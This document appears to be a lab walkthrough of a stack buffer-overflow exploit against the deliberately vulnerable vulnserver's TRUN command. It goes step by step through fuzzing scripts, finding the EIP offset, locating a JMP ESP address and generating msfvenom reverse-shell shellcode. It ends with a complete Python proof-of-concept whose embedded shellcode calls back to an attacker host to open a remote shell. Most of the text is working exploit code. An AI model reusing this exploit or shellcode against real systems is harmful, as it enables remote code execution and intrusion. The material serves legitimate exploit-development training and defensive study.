






# TRUN: EIP Overwrite

-----

## Crashing the application

First thing we want to do is begin fuzzing the application. To do this, let's write a quick spike script to see if we can crash vulnserver.

```
s_readline();
s_string("TRUN ");
s_string_variable(0);
```

Now let's use `generic_send_tcp` to try and crash the application.

```bash
generic_send_tcp 10.10.199.224 9999 trun.spk 0 0
```

We successfully crashed vulnserver.


## Replicating the crash

Now that we know we have a crash, let's try to replicate the crash. To do this, we are going to write a quick fuzz script in Python.

```python
#!/usr/bin/env python3

import socket
import sys
import time

# Target information
host = "10.10.199.224"
port = 9999

prefix = "TRUN /.:/"
timeout = 5

string = prefix + "A" * 100

while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((host, port))
            s.recv(1024)
            print("Fuzzing with {} bytes.".format(len(string) - len(prefix)))
            s.send(bytes(string, "latin-1"))
            s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes.".format(len(string) - len(prefix)))
        sys.exit(0)
    string += "A" * 100
    time.sleep(1)
```

This caused the application to crash at about 2000 bytes. Although, nothing seemed to be overwritten. Let's try again starting at 2500 bytes.

```python
#!/usr/bin/env python3

import socket
import sys
import time

# Target information
host = "10.10.199.224"
port = 9999

prefix = "TRUN /.:/"
timeout = 5

string = prefix + "A" * 2500

while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((host, port))
            s.recv(1024)
            print("Fuzzing with {} bytes.".format(len(string) - len(prefix)))
            s.send(bytes(string, "latin-1"))
            s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes.".format(len(string) - len(prefix)))
        sys.exit(0)
    string += "A" * 100
    time.sleep(1)
```

This time we have a successful crash with the EIP overwritten.



-----

## Finding the offset

Now that we know 2500 bytes will crash and overwrite the EIP, let's find where the offset is to try and overwrite the EIP address.

First we need to generate a cyclic string

```bash
msf-pattern_create -l 2500
```

Now let's try to overwrite the EIP with a cyclic string.

```python
#!/usr/bin/env python3

import socket

# Target information
host = "10.10.199.224"
port = 9999

prefix = b"TRUN /.:/"
#crash_length = 2500

# msf-pattern_create -l 2500
cyclic = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2D"

payload = b"".join([
    prefix,
    cyclic 
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")

```

Now, let's use the current value of the EIP to find the offset.



```bash
msf-pattern_offset -l 2500 -q 386F4337
```

From this, we know the offset is going to be 2003. Let's verify this by trying to overwrite with "B"s.

```python
#!/usr/bin/env python3

import socket

# Target information
host = "10.10.199.224"
port = 9999

prefix = b"TRUN /.:/"
crash_length = 2500

# msf-pattern_offset -l 2500 -q 386F4337
offset = 2003

payload = b"".join([
    prefix,
    b"A" * offset,
    b"B" * 4,
    b"C" * (crash_length - len(prefix) - offset - 4)
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

After sending our current exploit, we have been able to overwrite the EIP with all "B"s. This verifies out offset is correct.



-----

## Locating JMP ESP address

Now that we can control the instruction pointer, let's find a `JMP ESP` instruction to try an execute code on the stack. This can be done within Immunity Debugger with mona.

```
!mona jmp -r esp
```



Based on the output of mona, it is best if we choose an address with no protections (ascii if possible). Let's choose `0x62501203`. Now let's by using a breakpoint, let's verify we can cause the application to go to our chosen address.

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.199.224"
port = 9999

prefix = b"TRUN /.:/"
crash_length = 2500

# msf-pattern_offset -l 2500 -q 386F4337
offset = 2003

jmp_esp = 0x62501203
new_eip = struct.pack("<I", jmp_esp)

payload = b"".join([
    prefix,
    b"A" * offset,
    new_eip,
    b"C" * (crash_length - len(prefix) - offset - len(new_eip))
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

As shown below, we successfully overwritten the EIP and jumped to our EIP location.



-----

## Generating shellcode

First, let's use msfvenom to generate our shellcode.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.6.209 LPORT=9001 EXITFUNC=thread -b "\x00" -f py -v shellcode
```

Now, here is out final proof of concept exploit.

```python
#!/usr/bin/env python3

import socket
import struct

# Target information
host = "10.10.199.224"
port = 9999

prefix = b"TRUN /.:/"
crash_length = 2500

# msf-pattern_offset -l 2500 -q 386F4337
offset = 2003

jmp_esp = 0x62501203
new_eip = struct.pack("<I", jmp_esp)

nop_sled = b"\x90" * 16

# msfvenom -p windows/shell_reverse_tcp LHOST=10.9.6.209 LPORT=9001 EXITFUNC=thread -b "\x00" -f py -v shellcode
shellcode =  b""
shellcode += b"\xbe\x40\x60\x9b\x43\xdd\xc2\xd9\x74\x24\xf4"
shellcode += b"\x5a\x31\xc9\xb1\x52\x83\xea\xfc\x31\x72\x0e"
shellcode += b"\x03\x32\x6e\x79\xb6\x4e\x86\xff\x39\xae\x57"
shellcode += b"\x60\xb3\x4b\x66\xa0\xa7\x18\xd9\x10\xa3\x4c"
shellcode += b"\xd6\xdb\xe1\x64\x6d\xa9\x2d\x8b\xc6\x04\x08"
shellcode += b"\xa2\xd7\x35\x68\xa5\x5b\x44\xbd\x05\x65\x87"
shellcode += b"\xb0\x44\xa2\xfa\x39\x14\x7b\x70\xef\x88\x08"
shellcode += b"\xcc\x2c\x23\x42\xc0\x34\xd0\x13\xe3\x15\x47"
shellcode += b"\x2f\xba\xb5\x66\xfc\xb6\xff\x70\xe1\xf3\xb6"
shellcode += b"\x0b\xd1\x88\x48\xdd\x2b\x70\xe6\x20\x84\x83"
shellcode += b"\xf6\x65\x23\x7c\x8d\x9f\x57\x01\x96\x64\x25"
shellcode += b"\xdd\x13\x7e\x8d\x96\x84\x5a\x2f\x7a\x52\x29"
shellcode += b"\x23\x37\x10\x75\x20\xc6\xf5\x0e\x5c\x43\xf8"
shellcode += b"\xc0\xd4\x17\xdf\xc4\xbd\xcc\x7e\x5d\x18\xa2"
shellcode += b"\x7f\xbd\xc3\x1b\xda\xb6\xee\x48\x57\x95\x66"
shellcode += b"\xbc\x5a\x25\x77\xaa\xed\x56\x45\x75\x46\xf0"
shellcode += b"\xe5\xfe\x40\x07\x09\xd5\x35\x97\xf4\xd6\x45"
shellcode += b"\xbe\x32\x82\x15\xa8\x93\xab\xfd\x28\x1b\x7e"
shellcode += b"\x51\x78\xb3\xd1\x12\x28\x73\x82\xfa\x22\x7c"
shellcode += b"\xfd\x1b\x4d\x56\x96\xb6\xb4\x31\x93\x4f\xb0"
shellcode += b"\x10\xcb\x4d\xbc\xb1\x25\xdb\x5a\xdf\x25\x8d"
shellcode += b"\xf5\x48\xdf\x94\x8d\xe9\x20\x03\xe8\x2a\xaa"
shellcode += b"\xa0\x0d\xe4\x5b\xcc\x1d\x91\xab\x9b\x7f\x34"
shellcode += b"\xb3\x31\x17\xda\x26\xde\xe7\x95\x5a\x49\xb0"
shellcode += b"\xf2\xad\x80\x54\xef\x94\x3a\x4a\xf2\x41\x04"
shellcode += b"\xce\x29\xb2\x8b\xcf\xbc\x8e\xaf\xdf\x78\x0e"
shellcode += b"\xf4\x8b\xd4\x59\xa2\x65\x93\x33\x04\xdf\x4d"
shellcode += b"\xef\xce\xb7\x08\xc3\xd0\xc1\x14\x0e\xa7\x2d"
shellcode += b"\xa4\xe7\xfe\x52\x09\x60\xf7\x2b\x77\x10\xf8"
shellcode += b"\xe6\x33\x30\x1b\x22\x4e\xd9\x82\xa7\xf3\x84"
shellcode += b"\x34\x12\x37\xb1\xb6\x96\xc8\x46\xa6\xd3\xcd"
shellcode += b"\x03\x60\x08\xbc\x1c\x05\x2e\x13\x1c\x0c"

payload = b"".join([
    prefix,
    b"A" * offset,
    new_eip,
    nop_sled,
    shellcode,
    b"C" * (crash_length - len(prefix) - offset - len(new_eip) - len(nop_sled) - len(shellcode))
])

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    try:
        s.connect((host, port))
        print("Sending buffer...")
        s.send(payload + b"\r\n")
        print("Done!")
    except:
        print("Could not connect.")
```

Let's set up a netcat lister and hope to catch a reverse shell.

